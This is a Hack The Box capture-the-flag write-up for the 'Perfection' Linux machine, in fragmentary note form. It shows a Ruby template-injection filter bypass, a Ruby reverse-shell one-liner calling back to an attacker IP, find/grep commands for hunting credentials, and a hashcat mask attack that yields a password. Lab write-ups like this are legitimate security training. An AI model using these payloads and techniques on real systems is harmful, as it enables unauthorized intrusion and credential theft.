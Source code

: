 ```yaml
---
title: HTB-Perfection
draft: false
tags:
  - htb
  - linux
  - easy
---
```

Picture here

## Information Gathering
### Rustscan



## Enumeration

### HTTP - TCP 80

![alt text](image.png)


`/weighted-grade`

![alt text](image-1.png)

![alt text](image-2.png)

## Ruby SSTI



Fuzzing with https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Intruder/ssti.fuzz


![alt text](image-3.png)

![alt text](image-4.png)


<%= 7 * 7 %>

![alt text](image-5.png)

![alt text](image-6.png)

Ruby SSTI

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby


change the order of how the information is submitted and I was then able to inject newlines and get past the filtering & ruby payload

```ruby
a
<%=system("pwd");%>
```

![alt text](image-7.png)

![alt text](image-8.png)

![alt text](image-9.png)

![alt text](image-10.png)

## SSTI Reverse Shell


https://www.revshells.com/

`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.14",1337))'`

![alt text](image-11.png)

`python3 -c 'import pty; pty.spawn("/bin/sh")'`


## Privesc: susan to root

![alt text](image-12.png)

![alt text](image-13.png)

Add below to jadu privesc part

`find / -uid 1001 -type f -ls 2>/dev/null | grep -v "/proc*"`

![alt text](image-14.png)


`find / -name "*susan*" -type f -ls 2>/dev/null`

![alt text](image-15.png)

`grep -i password -R .`

![alt text](image-16.png)

![alt text](image-12.png)

![alt text](image-13.png)

![alt text](image-17.png)

/var/mail/susan

![alt text](image-18.png)

## Hash Cracking



picture here

`hashcat -m 1400 hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d`

picture here


susan_nasus_413759210


![alt text](image-19.png)